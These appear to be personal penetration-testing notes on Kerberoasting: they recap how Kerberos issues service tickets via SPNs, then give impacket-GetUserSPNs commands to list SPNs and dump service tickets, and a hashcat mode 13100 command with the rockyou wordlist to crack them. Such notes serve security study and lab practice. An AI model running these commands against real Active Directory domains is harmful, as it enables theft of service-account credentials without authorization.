
### REQUIREMENTS
- `88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-17 09:26:07Z)`
- DC IP required 
- valid user creds required


#### RECAL KERBROS  AUTH
![[Kerberos.png]]

- here WS specifies "File server" how?? `by SPN CIFS/fileserver.company.com`

>When a service (like a File Server) is deployed in a domain, an SPN is registered in Active Directory.

- TGS look up SPN in NTDS file and retrive service secret key encrypts service ticket 

- the secret key is called `Service Account Credentials`



### ATTACK

- to list SPN in DC 
```
impacket-GetUserSPNs  <domain>/<username>:<password>
```


- to list and dump service tickets 

```
impacket-GetUserSPNs --request <domain>/<username>:<password>
```


#### Impacket-GetUserSPNs

> The tool connects to the **Ticket Granting Service (TGS)** on the DC over **port 88** (Kerberos).
   It queries the DC for all **accounts with SPNs** registered in Active Directory (usually service accounts).




### CRACK USING HASHCAT

```
Hashcat -m 13100 <hash_file> <rockyou wordlist>
```














`
